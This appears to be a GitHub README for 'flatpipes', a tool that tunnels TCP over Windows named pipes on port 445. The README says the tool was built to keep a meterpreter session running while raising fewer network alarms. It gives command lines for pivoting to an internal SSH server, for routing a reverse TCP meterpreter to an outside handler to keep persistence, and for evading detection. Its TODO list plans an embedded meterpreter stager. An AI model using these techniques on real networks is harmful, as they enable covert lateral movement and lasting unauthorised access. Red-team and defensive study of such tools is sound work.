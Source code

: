 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:

#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
> *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001* 

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes: 
> *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*

On the jumphost we PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22: 
> *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*

Just ssh on 127.0.0.1 22 and you are through the town portal


#### Usage - Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver, same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*

On the jumphost we connect to the MS Fileserver and immediately connect to the handler: 
> *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---

#### TODO
* Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread)
* "Monkey patch" the above stager to change port on the fly (on hex)
* Exception handling. Asap when pipe auth does not work
* Think any other useful scenarios

---

I hope it will help. It is not very well-written, comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
